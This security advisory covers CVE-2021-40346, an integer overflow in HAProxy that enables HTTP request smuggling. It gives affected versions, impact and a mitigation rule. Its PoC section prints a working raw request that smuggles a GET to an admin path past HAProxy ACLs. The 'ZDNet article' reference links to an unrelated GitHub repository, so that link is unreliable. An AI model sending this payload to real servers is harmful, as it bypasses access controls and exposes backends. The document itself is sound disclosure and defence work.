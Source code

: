 ```yaml
---
description: CVE-2021-40346 High severity. An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests
title: Integer overflow in HAProxy leads to HTTP Smuggling
date_published: "2021-07-09"
last_updated: "2021-07-09"
xray_id: XRAY-184496
vul_id: CVE-2021-40346
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary

An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests

## Component

[HAProxy](http://www.haproxy.org/)

## Affected versions

HAProxy [2.0 - 2.0.24], fixed in 2.0.25
HAProxy [2.1 - 2.1*], no fix. unmaintained version
HAProxy [2.2 - 2.2.16], fixed in 2.2.17
HAProxy [2.3 - 2.3.13], fixed in 2.3.14
HAProxy [2.4 - 2.4.3], fixed in 2.4.4
HAProxy Enterprise [2.0r1 - 2.0r1-1.0.0-234.1215], fixed in 2.0r1-1.0.0-235.1230
HAProxy Enterprise [2.1r1 - 2.1r1-1.0.0-238.612], fixed in 2.1r1-1.0.0-238.625
HAProxy Enterprise [2.2r1 - 2.2r1-1.0.0-241.491], fixed in 2.2r1-1.0.0-241.505
HAProxy Enterprise [2.3r1 - 2.3r1-1.0.0-242.330], fixed in 2.3r1-1.0.0-242.345
HAProxy Enterprise [2.4r1 - 2.4r1], fixed in 2.4r1-1.0.0-253.271
HAproxy Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAproxy Enterprise Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAProxy ALOHA [11.5 - 11.5.12], fixed in 11.5.13
HAProxy ALOHA [12.5 - 12.5.4], fixed in 12.5.5
HAProxy ALOHA [13.0 - 13.0.6], fixed in 13.0.7

## Description

Due to an integer overflow, a parsing error is created in HAProxy that allows an attacker to specify two `Content-Length` headers with different sizes. Subsequently, this allows an attacker to perform HTTP smuggling. This attack allows an adversary to smuggle HTTP requests to the backend server, without the proxy server being aware of it. The smuggled requests have various impacts, depending on HAProxy’s configuration and the backend web server configuration: Bypassing security controls, including any ACLs defined in HAProxy, Gaining unauthorized access to sensitive data, Executing unauthorized commands or modifying data, Hijacking user sessions, Exploiting a reflected XSS vulnerability without user interaction.

## PoC

Any attacker that can send requests through the proxy, can exploit this vulnerability, by sending requests such as:

```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60

GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz


```

The GET request will be smuggled and will evade any ACLs defined in the HAProxy configuration file.

## Vulnerability Mitigations

If you are not able to update right away, you can apply the following rules to your HAProxy configuration file to mitigate the vulnerabilities. These should be added to your frontend.

```
frontend myfrontend
http-request deny if { req.hdr_cnt(content-length) gt 1 }
http-response deny if { res.hdr_cnt(content-length) gt 1 }
```


## References

[JFrog Blogpost](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

[HAProxy advisory](https://www.haproxy.com/blog/september-2021-duplicate-content-length-header-fixed/)

[ZDNet article](https://github.com/tailwindlabs/tailwindcss-typography)
